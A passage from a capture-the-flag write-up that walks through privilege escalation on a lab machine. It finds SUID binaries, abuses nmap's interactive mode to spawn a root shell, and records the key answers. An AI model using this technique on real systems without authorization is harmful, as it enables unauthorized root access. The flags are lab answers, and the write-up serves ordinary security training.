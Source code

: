 ###### What is key 2? : `822c73956184f694993bede3eb39f959`

To escalate privileges, I looked for files that have the `SUID` bit set using the following command:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](./screenshots/robot-15.png)

We get a list of all the binaries that can be run as sudo, and one of them stands out: `nmap`.

> Went to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and looked for `nmap`. Tried some of the given commands until one of them worked.

The one that worked was running `nmap` in an interactive shell. Then, we can execute commands inside that. Since `nmap` is run as `sudo`, then the shell commands we execute will be executed with `sudo` level permissions.

```bash
robot@linux:~$ nmap --interactive
nmap> !sh
# whoami
root
```

Now, we are root. Looking for the final flag.

```bash
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

###### What is key 3?: `04787ddef27c3dee1ee161b21670b4e4`

---
